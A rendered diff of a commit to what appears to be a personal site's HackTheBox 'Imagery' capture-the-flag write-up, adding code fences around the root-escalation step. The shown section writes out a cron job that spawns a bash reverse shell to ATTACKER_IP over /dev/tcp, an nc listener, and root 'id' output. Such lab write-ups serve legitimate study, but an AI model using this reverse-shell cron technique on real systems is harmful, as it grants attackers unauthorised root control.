

Before and after one commit to martintsenkov/martintsenkov.github.io, a Markdown page: writeups/notes/hackthebox–imagery.md, the part around one of its changes. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/writeups/notes/HackTheBox–Imagery.md
+++ b/writeups/notes/hackthebox–imagery.md
@@ -155,20 +199,27 @@ Root Compromise via Cron Abuse
 
 A malicious cron job was added to execute a reverse shell as root:
 
+
+```bash
 auto add --schedule "* * * * *" \
 --command "/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/7777 0>&1'" \
 --name "RevShell"
+```
 
 
 Listener:
 
+```bash
 nc -lnvp 7777
+```
 
 
 Within a minute, a root shell was received:
 
+```bash
 id
 uid=0(root)
+```
 
 
 Root flag obtained successfully.
````
Also changed, not shown: other parts of writeups/notes/hackthebox–imagery.md (+59 -15 lines).
